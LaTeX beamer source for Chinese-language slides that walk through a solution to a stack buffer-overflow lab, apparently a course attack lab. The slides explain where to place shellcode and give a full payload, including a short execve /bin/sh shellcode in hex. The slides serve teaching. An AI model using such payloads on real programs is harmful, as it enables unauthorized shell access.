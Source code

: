 \documentclass{beamer}
\begin{document}
\begin{frame}{Lab3}{Solution4}
    既然我们可以执行任意汇编代码，那我们为什么不试着拿Shell权限呢？首先我们需要找到一个放置Shellcode的地方。

    回到我们前面给到的这个结构： shellcode + padding + ebp + shellcode's start addr 

    \texttt{padding + ebp}一共是24Bytes，但是考虑到Shellcode执行阶段可能遇到的 \texttt{push}指令，更好的选择其实是放在 \texttt{shellcode's start addr}的后面。

    这时我们的payload就变成了下面的结构：

    padding + ebp + shellcode's start addr + shellcode
\end{frame}

\begin{frame}{Lab2}{Solution4}
    在网上找一个小一点的Shellcode\footnote{利用int 0x80执行了/bin/sh的一段\href{https://shell-storm.org/shellcode/files/shellcode-841.html}{Shellcode}}，我们就得到了我们最终的Payload：

    00000000 00000000 00000000 00000000 00000000 00000000 EBP START\_ADDR 31C9F7E1 B00B5168 2F2F7368 682F6269 6E89E3CD 80
\end{frame}

\begin{frame}{Lab2}{Solution4}
    \begin{figure}[h]
        \centering
        \includegraphics[width=1\textwidth]{images/final_sh_shellcode}
        \caption{彩蛋：拿到shell后直接输出`getbuf returned 0xdeadbeef'}
    \end{figure}
\end{frame}

\begin{frame}
    \centering \Large
    \emph{Thank you!}
\end{frame}
\end{document}
